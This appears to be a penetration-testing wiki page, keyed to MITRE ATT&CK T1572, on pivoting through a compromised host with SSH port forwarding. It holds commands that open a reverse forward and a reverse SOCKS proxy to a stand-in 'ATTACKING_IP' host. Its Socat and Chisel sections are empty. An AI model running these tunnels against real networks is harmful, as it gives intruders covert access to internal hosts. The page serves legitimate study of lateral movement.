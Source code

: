 ```yaml
---
description: MITRE ATT&CK™ Protocol Tunneling  - ID T1572 
---
```

# Port Forwarding

## Theory
Port Forwarding, consist of using any compromised host as a jump box to pivot to other hosts. It is expected that some machines will have more network permissions than others.

## Practice
### SSH tunneling
SSH port forwarding is a mechanism in SSH for tunneling application ports from the client machine to the server machine, or vice versa.  
Since we'll be making a connection back to our attacker's machine, we'll want to create a user in it without access to any console for tunnelling and set a password to use for creating the tunnels:  

```bash
useradd tunneluser -m -d /home/tunneluser -s /bin/true
passwd tunneluser
```
{% tabs %}
{% tab title="SSH Local-Forwarding" %}
**Local port forwarding** is used to **forward a port from the client machine to the server machine**. Basically, the SSH client listens for connections on a configured port, and when it receives a connection, it tunnels the connection to an SSH server. The server connects to a configurated destination port, possibly on a different machine than the SSH server.  
  
This example opens a connection to the jump-server.net, and forwards any connection to port 80 on the local machine to port 80 on intra.example.com.
```bash
veresk@kali$ ssh -L *:80:intra.example.com:80 user@jump-server.net -fN
```
{% endtab %}

{% tab title="SSH Remote-Forwarding" %}
**Remote port forwarding** allows a client machine of an SSH connection to redirect one of its ports to a port on the server, or to redirect a port of a network machine from the SSH server to a port local to the server.  
  
We can,for example, on a compromised computer (jump-server) connect back to the attackbox with a reverse port forward using the following command.  
This example produce the same result as previously seen with Local-Forwarding. Any connection on `ATTACKING_IP:8000` will be redirected on `intra.example.com:80`

```bash
PC> ssh -R 8000:intra.example.com:80 tunneluser@ATTACKING_IP -fN
```

In newer versions of the SSH client, it is also possible to create a **reverse proxy** (the equivalent of the `-D` switch used in local connections). This may not work in older clients, but this command can be used to create a reverse proxy in clients which do support it: 
```bash
ssh -R 9090 tunneluser@ATTACKING_IP -fN
```
{% endtab %}
{% endtabs %}

### SOCAT
{% tabs %}
{% tab title="Socat" %}
{% endtab %}
{% endtabs %}


### CHISEL
{% tabs %}
{% tab title="Chisel" %}
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://attack.mitre.org/techniques/T1572/" %}
{% embed url="https://podalirius.net/en/articles/ssh-port-forwarding/" %}


